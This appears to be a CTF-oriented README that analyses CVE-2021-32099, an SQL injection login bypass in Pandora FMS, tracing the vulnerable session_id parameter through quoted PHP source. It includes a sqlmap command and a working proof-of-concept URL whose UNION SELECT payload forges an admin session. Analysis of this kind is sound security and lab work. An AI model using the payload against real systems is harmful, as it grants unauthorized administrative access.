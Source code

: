 # CVE-2021-32099 SQLi Bypass login
Useful when trying to read **User Flag** on **Pandora.htb**

CVE-2021-32099 SQLi allow attacker bypass login.

## Target

Exploit on: **Pandora FMS v7.0NG.742_FIX_PERL2020**

## Analysis
Read from cvedetail. We know endpoint of target: http://localhost:8000/pandora_console/include/chart_generator.php?session_id=PayloadHere => Access denied.

![alt text](https://github.com/l3eol3eo/CVE-2021-32099_SQLi/blob/master/images/read_from_cvedetail.jpg?raw=true)
`sqlmap -r req.txt -p session_id --dbms=mysql --dbs --risk=3 --level=5`

After enumerate, we just focus on **tsessions_php** table. **tssessions_php** have 3 columns: id_session, last_active, data. ( sqlmap's result wrong format )

![alt text](https://github.com/l3eol3eo/CVE-2021-32099_SQLi/blob/master/images/sqlmap_result.jpg?raw=true)

**/include/chart_generator.php**
```php
71  // Try to initialize session using existing php session id.
72  $user = new PandoraFMS\User(['phpsessionid' => $_REQUEST['session_id']]);
73  if (check_login(false) === false) {   
74     // Error handler.
 ⋮
96  }
97
98  // Access granted.
```

- **phpsessionid** will be assign value of **session_id** (***PayloadHere***)

**/include/lib/User.php**
```php
60  public function __construct($data)
61  {
 ⋮
68     if (is_array($data) === true) {
69        if (isset($data['phpsessionid']) === true) {
70           $this->sessions[$data['phpsessionid']] = 1;
71           $info = \db_get_row_filter(
72              'tsessions_php',
73              ['id_session' => $data['phpsessionid']]
74          );
75
76         if ($info !== false) {
77            // Process.
78            $session_data = session_decode($info['data']);
79            $this->idUser = $_SESSION['id_usuario'];
80
81            // Valid session.
82            return $this;
83         }
```

- **id_session** will be assign value of **phpsessionid**
- All code will provide for this query: `select * from tsessions_php where id_session=***PayloadHere***`

**/include/lib/db/mysql.php**
```php
848  function db_get_row_filter($table, $filter, $fields=false)
849  {  
850     if (empty($fields)) {
851         $fields = '*';
852     }
 ⋮
861     $filter = db_format_array_where_clause_sql($filter, ' WHERE ');
 ⋮
868     $sql = sprintf('SELECT %s FROM %s %s', $fields, $table, $filter);
```

## **POC**: 
http://localhost:8000/pandora_console/include/chart_generator.php?session_id=PayloadHere%27%20union%20select%20%271%27,%272%27,%27id_usuario|s:5:%22admin%22;%27%20--%20a => Pandora FMS Graph ( - )

reload: http://localhost:8000/pandora_console/ to access webpage

## References:

https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained 

https://portswigger.net/daily-swig/multiple-vulnerabilities-in-pandora-fms-could-trigger-remote-execution-attack